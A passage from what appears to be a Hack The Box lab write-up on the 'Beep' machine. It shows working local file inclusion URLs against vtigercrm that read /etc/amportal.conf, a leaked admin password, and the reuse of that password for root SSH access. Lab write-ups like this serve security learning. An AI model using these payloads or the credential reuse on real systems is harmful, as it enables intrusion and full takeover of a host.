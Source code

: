 While this is good progress, I'm able to read files on the target, I'm not sure what to try.
I remember vtigercrm mentioned in one of the elastix exploits, taking advantage of LFI, so I have another look...

I do `searchsploit elastix` again, identify the exploit then read it with `searchsploit -x 37637`


```

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

```

While I was reading up about vtiger-crm I could see that you can set up portals for each user, and any file with `.conf` is worth examining for admin creds or configuraiton clues...
...so I have a look...

```

https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/amportal.conf%00


```

The result is a mass of information that hurts to scan-read, but I do find a nugget amongst it...

![vtigercrm-amportal](/assets/img/vtigercrm-amportal.png)


`admin/jEhdIekWmdjE`

I try it with the vtigercrm login....it works.

I try it again with the freepbx login...it works.

I know that its going to work with elastix login too...and it does!!!

This reuse of admin creds is criminal...

I even try it with the ssh service on port 22 with the root user, thinking "no, surely not!", but YES, it works there too...!!!

```

root@kali:~/HTB/vip/beep# ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# 

```
